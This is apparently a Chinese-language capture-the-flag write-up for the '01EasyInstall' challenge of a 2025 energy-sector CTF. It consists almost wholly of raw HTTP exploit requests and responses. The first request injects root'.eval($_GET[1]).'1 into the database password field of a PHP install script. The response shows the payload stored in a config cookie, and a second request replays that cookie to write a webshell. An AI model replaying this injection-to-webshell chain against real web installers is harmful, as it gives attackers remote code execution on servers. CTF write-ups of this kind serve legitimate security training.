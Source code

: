 ## 2025年全国能源CTF大赛社会组
### 01EasyInstall

发送一下数据包 注意 mysql的连接地址必须是真实的 所以这里的127.0.0.1 yy

```http
POST /install.php?m=Install&a=step2&c=Install& HTTP/1.1
Host: 127.0.0.1:2002
Content-Length: 160
Pragma: no-cache
Cache-Control: no-cache
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=f9d1b6956b5af8d809954a1a9d8db6b1
Connection: keep-alive

admin[]=admin&admin[]=admin&admin[]=admin&admin[]=admin&admin[]=admin&db[]=mysql&db[]=127.0.0.1&db[]=test&db[]=root&db[]=root'.eval($_GET[1]).'1&db[]=3306&db[]=
```

得到对应Cookie

```http
HTTP/1.1 302 Found
Date: Fri, 18 Apr 2025 02:43:44 GMT
Server: Apache/2.4.25 (Debian)
X-Powered-By: PHP/5.6.40
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Set-Cookie: foo_db_config=think%3A%7B%22DB_PREFIX%22%3A%22%22%2C%22DB_PORT%22%3A%223306%22%2C%22DB_PWD%22%3A%22root%2527.eval%2528%2524_GET%255B1%255D%2529.%25271%22%2C%22DB_USER%22%3A%22root%22%2C%22DB_NAME%22%3A%22test%22%2C%22DB_HOST%22%3A%22127.0.0.1%22%2C%22DB_TYPE%22%3A%22mysql%22%7D; path=/
Location: /install.php?s=/install/step3.html
Content-Length: 0
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=utf-8



```
将得到的cookie 替换下方的 Cookie ，并请求写入webShell
```http
POST /install.php?m=Install&a=step3&c=Install& HTTP/1.1
Host: 127.0.0.1:2002
Content-Length: 0
Pragma: no-cache
Cookie: foo_db_config=think%3A%7B%22DB_PREFIX%22%3A%22%22%2C%22DB_PORT%22%3A%223306%22%2C%22DB_PWD%22%3A%22root%2527.eval%2528%2524_GET%255B1%255D%2529.%25271%22%2C%22DB_USER%22%3A%22root%22%2C%22DB_NAME%22%3A%22test%22%2C%22DB_HOST%22%3A%22127.0.0.1%22%2C%22DB_TYPE%22%3A%22mysql%22%7D; path=/
Cache-Control: no-cache
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
```